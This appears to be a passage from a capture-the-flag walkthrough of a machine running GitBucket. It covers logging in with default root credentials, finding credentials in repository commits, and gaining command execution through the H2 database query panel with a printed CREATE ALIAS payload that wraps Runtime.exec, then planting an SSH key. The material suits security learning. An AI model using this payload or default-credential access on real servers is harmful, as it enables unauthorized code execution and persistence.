 When we go to port `8080` we see that `GitBucket` is running. When we search for the default username and password for `GitBucket` and try to log in, we can log in as `GitBucket` `root` user. We see two repositories, one of them is connected to the application running on port `80`.

![](https://miro.medium.com/v2/resize:fit:700/0*OZp0oOBiVbZ859Sn)

![](https://miro.medium.com/v2/resize:fit:700/0*YkTmSpZlSA-PaVKF)

![](https://miro.medium.com/v2/resize:fit:700/0*HPYi32eJEPc5r8qc)

![](https://miro.medium.com/v2/resize:fit:700/0*gwskPtfG2nIE2dO9)

# Checking Commits

![](https://miro.medium.com/v2/resize:fit:700/0*R_NwsZpM3rd0fQvJ)

![](https://miro.medium.com/v2/resize:fit:700/0*yOcmg42Wjp8lq_fn)

![](https://miro.medium.com/v2/resize:fit:700/0*3krW7KQAB9ZR6CLy)

With the username and password we found, we can log in to the web application running on port `80`, but there is no working function. There is also a Logs page that we cannot log in.

![](https://miro.medium.com/v2/resize:fit:700/0*ctla2zyV4_gj68wb)

If we go back to port `8080` and look around a bit more, we see a panel where we can perform a database query.

![](https://miro.medium.com/v2/resize:fit:700/0*JmU-4WWPQwdJlEm9)

# User

![](https://miro.medium.com/v2/resize:fit:700/0*tT8xAyhU-OeGXr4w)

`GitBucket` is left in developlement and uses `H2` database, we can get `RCE` by using `H2` database.

First create `ALIAS`
```
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
then use the `ALIAS`

`CALL EXECVE('<command>')`

![](https://miro.medium.com/v2/resize:fit:700/0*t1acPFX3kBtKMEYp)

You can generate your own SSH key using `ssh-keygen` command, and upload it to target machine.

